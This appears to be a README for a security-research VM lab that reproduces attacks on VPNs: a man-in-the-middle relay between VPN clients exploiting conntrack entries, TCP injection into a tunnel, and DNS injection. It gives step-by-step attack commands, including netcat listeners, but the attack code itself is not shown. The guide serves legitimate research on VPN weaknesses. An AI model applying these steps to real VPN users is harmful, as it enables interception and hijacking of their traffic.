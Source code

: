 # Overview

Each attack has its own Vagrantfile for ease of configuration. The attack descriptions
are located in the `Attack`` directory.

# virt-lab

VM lab environment for perform attacks. This implementation is a minimal deployment for
doing testing the attacks on a laptop with 16 GB RAM and 4 processors. 

### Requirements

* Virtualbox (5.2 or older)
* Vagrant 2.2.x

### Setup base virtual network

1. Start all VMs: `./boot_all.sh`
2. Go do something else cause its gonna take a while..
3. (Optional) ssh to some machine: 
  * ssh by port: `ssh -l vagrant localhost -p 22111`  
  * ssh with vagrant: `vagrant ssh <VM NAME>` (ex. `vagrant ssh attacker`)
![picture](diagrams/c2mitm-topology.jpg)

### Full c2mitm attack

#### Connect attacker to VPN server


1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh attacker` 
2. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client2.ovpn # Possibly run in tmux session` 
3. `vagrant@attacker:~$ sudo /vagrant/make_tun_route.sh # Force all traffic to the victim's NAT through the VPN server after we are connected` 
4. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/full-relay enp0s8 192.168.169.254 192.168.1.2 192.168.2.2 1194# Possibly run in tmux session` # Start the relay

#### Connect victim to "VPN server" (c2mitm $$$$)

1. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client1.ovpn` 

TODO: Add some more info to describe how to verify the attack work (it will be similiar to description for the simplified attack below).


### Simplified c2mitm attack (don't bother spamming the ephemeral port range of the victim just yet)

#### Force victim's source port to be 31338 

1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh victim` 
2. `vagrant@victim:~$ sudo /vagrant/overwrite-sport-on-victim.sh`

#### Connect attacker to VPN server


1. `user@host:~/git/VeepExploit/virt-lab$ vagrant ssh attacker` 
2. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client2.ovpn # Possibly run in tmux session` 
3. `vagrant@attacker:~$ sudo /vagrant/make_tun_route.sh # Force all traffic to the victim's NAT through the VPN server after we are connected` 
4. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/simple-relay# Possibly run in tmux session` # Start the relay

5. `vagrant@attacker:~$ sudo /vagrant/client-to-mitm/src/prime-vpn-conntrack-table.sh 1194 31338 192.168.1.2` 

NOTE: The packets from (5.) only hang around in the VPN server's conntrack table for 30 seconds in the case of a UDP tunnel, so it
is important that the following step be performed within that time.

#### Connect victim to "VPN server" (c2mitm $$$$)

1. `vagrant@attacker:~$ sudo openvpn --config /vagrant/client1.ovpn` 


Now, when you log into the VPN server, and run:

```bash
$ sudo conntrack -L | grep 1194
vagrant@vpnserver:/var/log$ sudo conntrack -L | grep 1194
udp      17 178 src=10.8.0.6 dst=192.168.1.2 sport=1194 dport=31338 src=192.168.1.2 dst=192.168.2.2 sport=31338 dport=1194 [ASSURED] mark=0 use=1
udp      17 177 src=192.168.169.254 dst=192.168.2.2 sport=31338 dport=1194 src=192.168.2.2 dst=192.168.169.254 sport=1194 dport=31338 [ASSURED] mark=0 use=1
udp      17 178 src=192.168.169.254 dst=192.168.2.2 sport=54075 dport=1194 src=192.168.2.2 dst=192.168.169.254 sport=1194 dport=54075 [ASSURED] mark=0 use=1

```

You should see that the victim's NAT IP (192.168.1.2) is not the src in the
entry with `sport=31338` but instead the attacker's IP is. That is because the
attacker is acting as a NAT for the client. If you log into the attacker and
take pcaps, you will see packets from the client to the attacker's `tun0`
address (likely, 10.8.0.6) followed by packets from the attacker's public IP
address (192.168.169.254) to the VPN server (which are packets the relay is
NAT).


# DEPRECATED/NEEDS UPDATE

## Client-Side Attack

#### Configure client side attack environment

1. Navigate to configuration folder: `cd virt-lab/configs`
2. Run setup script to build gateway attacker node: `./setup_cliside_env.sh`

#### Test client side attack 


1. ssh to victim client VM (base host): `cd virt-lab/edgers/client && vagrant ssh`
2. Connect client to VPN (in client vm): `./connect.sh`
3. Open another shell to ssh to web server node (base host): `cd virt-lab/edgers/web-server && vagrant ssh`
4. Open another shell to ssh to gateway attacker node (base host): `cd virt-lab/routers/gateway && vagrant ssh`
5. On web-server vm, open a netcat connection for the client to connect to: `nc -l 8080`
6. On the client vm, connect to the web server: `nc 192.168.3.2 8080 -p 40404`
7. On the attacker vm, navigate to the attack folder: `cd ChangeMe/client-side-attack`
8. Rebuild all the attack scripts (attacker): `./rebuild_all.sh`
9. Navigate to full attack folder (attacker): `cd complete_attack`
10. Start full attack script (attacker): `./attack.sh`
11. Wait for script to infer private tun IP, port in use, exact sequence number, and in-window ack number needed to inject TCP

## Server-Side Attack
 
#### Configure server side attack environment

1. Navigate to configuration folder: `cd virt-lab/configs`
2. Run setup script to build gateway attacker node: `./setup_servside_env.sh.sh`


#### Test server side DNS attack

1. ssh to victim client VM (base host): `cd virt-lab/edgers/client && vagrant ssh`
2. Connect client to VPN (in client vm): `./connect.sh`
3. Open another shell to ssh to router1 attacker node (base host): `cd virt-lab/routers/router1 && vagrant ssh`
4. On the attack router vm navigate to dns inject folder: `cd ChangeMe/server-side-attack/dns-sside/full_scan/`
5. Compile full attack script (attacker): `make` 
6. Issue DNS lookup from client vm: `nslookup yo.com 192.168.3.2`
7. Start inject script from attacker node: `./inject_test.sh` 

## Teardown

1. Stop all the VMs: `./stop_all.sh`
2. Destroii all VMs in our path: `./destroy_all.sh`


